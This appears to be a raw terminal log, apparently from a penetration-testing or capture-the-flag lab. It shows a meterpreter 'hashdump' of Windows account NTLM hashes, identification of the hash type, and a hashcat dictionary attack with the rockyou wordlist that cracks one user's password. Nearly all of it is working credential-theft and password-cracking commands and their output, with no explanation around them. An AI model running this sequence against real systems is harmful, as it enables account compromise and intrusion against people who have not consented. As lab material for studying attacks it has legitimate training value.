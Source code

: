 meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
---
hash-identifier
HASH: ffb43f0de35be4d9917ac0cc8ad57f8d

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
---


hashcat --help | grep NTLM
   5500 | NetNTLMv1                                        | Network Protocols
   5500 | NetNTLMv1+ESS                                    | Network Protocols
   5600 | NetNTLMv2                                        | Network Protocols
   1000 | NTLM                                             | Operating Systems

hashcat --force -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-6820HQ CPU @ 2.70GHz, 1024/2934 MB allocatable, 1MCU

Hashes: 3 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.                                                                                                   
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=1000 -D _unroll'                                      
* Device #1: Kernel m01000_a0-pure.21f31112.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 3 secs

31d6cfe0d16ae931b73c59d7e0c089c0:                
ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22        
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NTLM
Hash.Target......: hashes
Time.Started.....: Wed May 27 14:58:56 2020 (7 secs)
Time.Estimated...: Wed May 27 14:59:03 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2165.1 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10201088/14344385 (71.12%)
Rejected.........: 0/10201088 (0.00%)
Restore.Point....: 10200064/14344385 (71.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: alread852 -> alphasarto11

Started: Wed May 27 14:58:43 2020
Stopped: Wed May 27 14:59:04 2020
